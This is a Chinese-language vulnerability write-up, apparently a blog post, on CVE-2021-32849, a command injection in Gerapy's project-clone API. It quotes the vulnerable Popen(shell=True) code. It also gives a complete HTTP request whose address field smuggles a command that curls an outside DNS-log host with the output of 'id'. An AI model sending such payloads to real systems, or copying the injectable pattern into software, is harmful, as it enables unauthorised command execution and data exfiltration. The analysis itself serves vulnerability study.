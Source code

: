 ```yaml
---
title: Gerapy clone 后台远程命令执行漏洞【CVE-2021-32849】
tags:
  - Gerapy clone
  - CVE-2021-32849
  - 远程命令执行
categories:
  - - 漏洞分析
abbrlink: 9d7d8426
date: 2025-04-14 10:33:52
---
```

@[TOC](Gerapy clone 后台远程命令执行漏洞【CVE-2021-32849】)

该漏洞的利用需要授权，虽然危害较大，但是感觉还是比较鸡肋的。
项目地址：[Gerapy](https://github.com/Gerapy/Gerapy)
该漏洞出现在项目的`gerapy/server/core/views.py`中的`project_clone`函数中：
<!--more-->
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/9eb4aefb4396f43fdf3008db2f01d093.png)
```python
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_clone(request):
    """
    clone project from github
    :param request: request object
    :return: json
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        address = data.get('address')
        if not address.startswith('http'):
            return JsonResponse({'status': False})
        address = address + '.git' if not address.endswith('.git') else address
        cmd = 'git clone {address} {target}'.format(address=address, target=join(PROJECTS_FOLDER, Path(address).stem))
        logger.debug('clone cmd %s', cmd)
        p = Popen(cmd, shell=True, stdin=PIPE, stdout=PIPE, stderr=PIPE)
        stdout, stderr = bytes2str(p.stdout.read()), bytes2str(p.stderr.read())
        logger.debug('clone run result %s', stdout)
        if stderr: logger.error(stderr)
        return JsonResponse({'status': True}) if not stderr else JsonResponse({'status': False})

```
注意到第339行使用了Popen函数，搜一下这个函数的作用：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/799f6635745b9e6dfc81b445ddb3b5f2.png)

说白了可以用来执行系统命令，我们来验证一下：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/5d258bd7ccdbd60712f869e1848ed6be.png)
成功弹出来了计算器。
所以如果cmd参数可控，那么就可以用来执行系统命令，
cmd的赋值操作：
```python
cmd = 'git clone {address} {target}'.format(address=address, target=join(PROJECTS_FOLDER, Path(address).stem))
```
address或者target可控就可以执行命令
address的赋值操作：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/3fc852ebbd311913f9e1987b778fb0d7.png)
观察这一串代码，首先将请求体的数据加载为python字典，然后获取其中address键的值赋值给address，同时还要满足address的值以http开头，否则就直接退出程序了。最后将address拼接.git赋值个address。从这个过程可以看到，address的值是我们完全可控的，也就意味着我们可以用来执行系统命令。
```shell
POST /api/project/clone HTTP/1.1
Host: 
Content-Length: 61
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"address":"http://127.0.0.1;curl `id`.rwbmny.dnslog.cn"}
```
访问的api信息在这儿：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/01e29197029a0735c2b4675d5678692a.png)
不幸的是，这个操作需要认证，看到请求头中的Authorization标头了吗，无语凝噎：
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/e8b49ac4d5289c12a97c47bd7c7b0e98.png)
顺着这个思路其实还有一系列的利用链条，有兴趣的可以自行下载源码审计。
